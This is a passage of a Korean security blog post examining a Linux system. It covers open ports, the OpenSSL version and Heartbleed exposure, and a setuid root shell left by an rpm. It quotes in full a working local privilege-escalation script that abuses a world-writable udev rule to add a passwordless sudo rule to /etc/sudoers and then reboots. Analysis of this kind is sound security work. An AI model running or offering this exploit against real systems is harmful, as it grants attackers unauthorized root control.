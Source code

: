     
    [user@localhost ~]$ netstat -anlp | grep 0.0.0.0
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    tcp        0      0 127.0.0.1:631               0.0.0.0:*                   LISTEN      -
    tcp        0      0 0.0.0.0:445                 0.0.0.0:*                   LISTEN      -
    tcp        0      0 0.0.0.0:199                 0.0.0.0:*                   LISTEN      -
    tcp        0      0 0.0.0.0:139                 0.0.0.0:*                   LISTEN      -
    tcp        0      0 0.0.0.0:111                 0.0.0.0:*                   LISTEN      -
    udp        0      0 0.0.0.0:161                 0.0.0.0:*                               -
    udp        0      0 0.0.0.0:162                 0.0.0.0:*                               -
    udp        0      0 127.0.0.1:51111             0.0.0.0:*                               -
    udp        0      0 0.0.0.0:5353                0.0.0.0:*                               -
    udp        0      0 0.0.0.0:49697               0.0.0.0:*                               2583/chkutil_client
    udp        0      0 0.0.0.0:68                  0.0.0.0:*                               -
    udp        0      0 0.0.0.0:864                 0.0.0.0:*                               -
    udp        0      0 0.0.0.0:111                 0.0.0.0:*                               -
    udp        0      0 0.0.0.0:631                 0.0.0.0:*                               -
    udp        0      0 0.0.0.0:36741               0.0.0.0:*                               -
    udp        0      0 192.168.26.131:137          0.0.0.0:*                               -
    udp        0      0 0.0.0.0:137                 0.0.0.0:*                               -
    udp        0      0 192.168.26.131:138          0.0.0.0:*                               -
    udp        0      0 0.0.0.0:138                 0.0.0.0:*                               -


작년에 큰 이슈가 되었던 openssl의 heartbleed 가능여부를 보면, 영향을 받지 않는 버전(0.9.8g)임을 알 수 있다.

    
    [user@localhost ~]$ openssl
    OpenSSL> version
    OpenSSL 0.9.8g 19 Oct 2007


좀 더 나아가 root 권한을 획득해 보자.  richardg867는 그의 블로그에서 Software Manager가 sudo를 통해 root권한으로 동작하는 점을 이용해 root 권한을 획득할 수 있는 rpm을 제공한다. 해당 rpm은 /bin/rootsh을 복사하며, 다음과 같이 setuid 권한을 가지고 있다.

    
    [user@localhost ~]$ ls -la /bin/rootsh
    -rwsr-sr-x. 1 root admin 4978 2014-12-30 20:00 /bin/rootsh


또한 지난 9일 Seclist에서  [local privilege escalation 취약점이 보고(CVE)](http://seclists.org/oss-sec/2015/q1/101)되었다. 모든 이가 쓸 수 있는 권한을 가지도록 잘못 설정되어 이를 이용해 "RUN+" 인자를 추가하고 root 권한으로 실행할 수 있다.

    
    [user@localhost ~]$ ls -la /etc/udev/rules.d/85-hplj10xx.rules
    -rwxrwxrwx. 1 root admin 1598 2012-11-18 02:26 /etc/udev/rules.d/85-hplj10xx.rules


위 취약점을 이용한 코드도 이미 다음과 같이 공개되었다. (Credit: [http://sprunge.us/cIKN?sh](http://sprunge.us/cIKN?sh))

    
    #!/bin/bash -e
    cp /etc/udev/rules.d/85-hplj10xx.rules /tmp/udevhp.bak
    echo 'RUN+="/bin/bash /tmp/r00t.sh"' > /etc/udev/rules.d/85-hplj10xx.rules
    cat <<EOF >/tmp/r00t.sh
    echo -e "ALL\tALL=(ALL)\tNOPASSWD: ALL" >> /etc/sudoers
    mv /tmp/udevhp.bak /etc/udev/rules.d/85-hplj10xx.rules
    chown 0:0 /etc/udev/rules.d/85-hplj10xx.rules
    rm /tmp/r00t.sh
    EOF
    chmod +x /tmp/r00t.sh
    echo "sudo will be available after reboot"
    sleep 2
    reboot
